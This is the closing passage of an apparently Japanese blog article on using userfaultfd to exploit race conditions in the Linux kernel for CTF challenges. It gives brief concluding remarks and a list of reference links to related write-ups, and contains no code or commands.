これは、比較的新しいバージョンのカーネルでは**root 権限でしか userfaultfd を使えない**ことを意味します。大衆の視野に入ったばかりの userfaultfd は、再び徐々に姿を消していくのかもしれません。しかし、userfaultfd が、Linux kernel での競合状態の攻略に、まったく新しい発想と、きわめて安定した攻略手法をもたらしたことは否定できません。

## Reference

> [【PWN.0x00】Linux Kernel Pwn I：Basic Exploit to Kernel Pwn in CTF](https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/)
> 
> [linux kernel pwn学习之条件竞争(二)userfaultfd](https://blog.csdn.net/seaaseesa/article/details/104650794?utm_medium=distribute.pc_relevant.none-task-blog-2%7Edefault%7EBlogCommendFromBaidu%7Edefault-6.control&depth_1-utm_source=distribute.pc_relevant.none-task-blog-2%7Edefault%7EBlogCommendFromBaidu%7Edefault-6.control)
>
> [https://zhuanlan.zhihu.com/p/385645268](https://zhuanlan.zhihu.com/p/385645268)
>
> [https://www.cjovi.icu/WP/1455.html](https://www.cjovi.icu/WP/1455.html)
>
> [https://www.cjovi.icu/WP/1468.html](https://www.cjovi.icu/WP/1468.html)
>
> [从内核到用户空间(1) — 用户态缺页处理机制 userfaultfd 的使用](http://blog.jcix.top/2018-10-01/userfaultfd_intro/)

